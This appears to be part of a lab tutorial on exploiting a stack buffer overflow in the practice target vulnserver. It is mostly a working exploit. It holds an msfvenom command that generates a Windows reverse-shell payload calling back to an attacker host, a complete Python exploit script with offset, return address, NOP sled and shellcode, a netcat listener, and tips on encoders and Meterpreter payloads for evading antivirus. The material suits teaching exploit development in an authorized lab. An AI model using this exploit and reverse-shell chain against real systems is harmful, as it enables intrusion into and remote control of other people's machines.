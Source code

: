 # Buffer Overflow Guide - Part 4
## Shellcode Generation and Final Exploit

### 1. Generate Shellcode
In Kali Linux, generate reverse shell shellcode:

```bash
msfvenom -p windows/shell_reverse_tcp \
LHOST=YOUR_KALI_IP \
LPORT=4444 \
EXITFUNC=thread \
-f python \
-b "\x00" \
-v shellcode
```

### 2. Final Exploit Script
Create `exploit.py`:

```python
#!/usr/bin/python3
import socket

host = "172.29.98.109"  # Target IP
port = 9999             # Target Port

# MSFVenom generated shellcode (paste here)
shellcode = (
    "\xbe\x15\x31\xa5\x41\xdb\xd2\xd9\x74\x24\xf4\x58\x31"
    "\xc9\xb1\x52\x83\xe8\xfc\x31\x70\x0e\x03\x70\x92\x7a"
    # ... rest of your shellcode ...
)

# Exploit details
offset = 2003                          # Confirmed offset
eip = "\xaf\x11\x50\x62"              # JMP ESP address (replace with yours)
nops = "\x90" * 16                     # NOP sled

# Build the payload
buffer = "A" * offset
payload = buffer + eip + nops + shellcode

# Exploit function
def exploit():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        print("[+] Connected to target!")
        
        print("[+] Sending evil buffer...")
        s.send(bytes("TRUN /.:/" + payload, "latin-1"))
        s.close()
        
        print("[+] Exploit sent successfully!")
        print("[*] Check your netcat listener!")
    except:
        print("[-] Could not connect!")

# Start listener reminder
print("[!] Don't forget to start your netcat listener!")
print("[!] Command: nc -nvlp 4444")
input("[*] Press Enter to continue once listener is ready...")

# Run exploit
exploit()
```

### 3. Set Up Listener
Before running exploit, start listener in Kali:
```bash
nc -nvlp 4444
```

### 4. Execution Steps

1. On Target Windows Machine:
   - Ensure vulnserver is running
   - Start Immunity Debugger as Administrator
   - Attach to vulnserver process
   - Click Play button

2. On Kali Machine:
   ```bash
   # Get your Kali IP
   ip addr show
   
   # Update exploit.py with your IP
   nano exploit.py
   
   # Start listener
   nc -nvlp 4444
   
   # In new terminal, run exploit
   python3 exploit.py
   ```

### Troubleshooting Tips

1. If exploit fails:
   - Check target is running and debugger is attached
   - Verify IP addresses are correct
   - Ensure antivirus is disabled on target
   - Try increasing NOP sled size
   - Verify shellcode has no bad characters

2. Common Issues:
   ```python
   # Try different encoders in msfvenom
   msfvenom -p windows/shell_reverse_tcp \
   LHOST=YOUR_KALI_IP LPORT=4444 \
   -f python -e x86/shikata_ga_nai \
   -i 3 \
   EXITFUNC=thread \
   -b "\x00"
   
   # Try different payload
   -p windows/shell/reverse_tcp  # Staged
   -p windows/meterpreter/reverse_tcp  # Meterpreter
   ```

### Expected Results

1. Successful execution:
   - Exploit runs without errors
   - Target application crashes
   - Netcat listener receives connection
   - Windows command prompt appears in netcat session

2. Verify access:
   ```cmd
   # In reverse shell
   whoami
   ipconfig
   dir
   ```

### Security Reminder
- Only use in authorized test environment
- Document all testing for educational purposes
- Reset system state after testing
